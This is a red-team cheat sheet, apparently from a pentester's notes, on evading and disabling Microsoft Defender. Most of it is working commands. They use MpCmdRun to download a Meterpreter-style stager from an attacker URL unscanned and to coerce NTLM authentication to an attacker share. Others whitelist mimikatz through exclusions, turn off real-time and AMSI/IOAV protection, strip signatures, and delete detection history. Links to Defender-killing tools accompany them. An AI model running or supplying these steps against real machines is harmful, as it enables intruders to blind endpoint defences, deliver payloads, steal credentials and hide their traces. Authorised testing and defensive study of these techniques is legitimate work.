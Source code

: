 ```yaml
---
description: Microsoft Defender
---
```


# Defender

- [https://github.com/0xsp-SRD/MDE_Enum](https://github.com/0xsp-SRD/MDE_Enum)

Download stager without triggering Defender to scan it:

```
Cmd > "C:\Program Files\Windows Defender\MpCmdRun.exe" -DownloadFile -Url http://127.0.0.1/met.exe -Path C:\Users\user\music\met.exe
```

Coerce the victim machine to reach the attacker (to steal Net-NTLM):

```
Cmd > "C:\Program Files\Windows Defender\MpCmdRun.exe" -Scan -ScanType 3 -File '\\10.10.13.37\share\file'
```




## Exclusions

- [https://blog.fndsec.net/2024/10/04/uncovering-exclusion-paths-in-microsoft-defender-a-security-research-insight/](https://blog.fndsec.net/2024/10/04/uncovering-exclusion-paths-in-microsoft-defender-a-security-research-insight/)
- [https://github.com/Friends-Security/SharpExclusionFinder](https://github.com/Friends-Security/SharpExclusionFinder)

Add path to exclusions:

```
PS > $mimi = "C:\Users\user\music\mimi\x64\mimikatz.exe"
PS > Add-MpPreference -ExclusionPath $mimi [-AttackSurfaceReductionOnlyExclusions $mimi]
```

Test path for an exclusion:

```
PS > & "C:\Program Files\Windows Defender\MpCmdRun.exe" -Scan -ScanType 3 -File "C:\folder_to_check\|*"
```




## Disable Defender

- [https://github.com/mandiant/commando-vm#pre-install-procedures](https://github.com/mandiant/commando-vm#pre-install-procedures)
- [https://github.com/swagkarna/Defeat-Defender-V1.2](https://github.com/swagkarna/Defeat-Defender-V1.2)
- [https://github.com/APTortellini/DefenderSwitch](https://github.com/APTortellini/DefenderSwitch)
- [https://github.com/dosxuz/DefenderStop](https://github.com/dosxuz/DefenderStop)
- [https://gist.github.com/fiercebrute/46e0636c0eaf72dcd3df4e280b6792d6](https://gist.github.com/fiercebrute/46e0636c0eaf72dcd3df4e280b6792d6)
- [http://www.wxxy-sec.com/?p=154](http://www.wxxy-sec.com/?p=154)

- gpedit.msc > *Administrative Templates* > *Windows Components* > *Microsoft Defender Antivirus* > *Real-time Protection* > *Turn off real-time protection* > *Enabled* ✔
- gpedit.msc > *Administrative Templates* > *Windows Components* > *Microsoft Defender Antivirus* > *Turn off Microsoft Defender Antivirus* > *Enabled* ✔

Disable real-time protection (proactive):

```
PS > Set-MpPreference -DisableRealTimeMonitoring $true
```

Disable scanning all downloaded files and attachments, disable AMSI (reactive):

```
PS > Set-MpPreference -DisableIOAVProtection $true
```

Remove signatures (if Internet connection is present, they will be downloaded again):

```
PS > cd "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0"
PS > .\MpCmdRun.exe -RemoveDefinitions -All
Or
Cmd > "%PROGRAMFILES%\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```

Clear threats history manually:

```
Cmd > del /S "C:\ProgramData\Microsoft\Windows Defender\Scans\History\Service\DetectionHistory\*"
```




## Lower Token Integrity

- [https://elastic.github.io/security-research/whitepapers/2022/02/02.sandboxing-antimalware-products-for-fun-and-profit/article/](https://elastic.github.io/security-research/whitepapers/2022/02/02.sandboxing-antimalware-products-for-fun-and-profit/article/)
- [https://github.com/plackyhacker/SandboxDefender](https://github.com/plackyhacker/SandboxDefender)
- [https://github.com/pwn1sher/KillDefender](https://github.com/pwn1sher/KillDefender)
- [https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools)
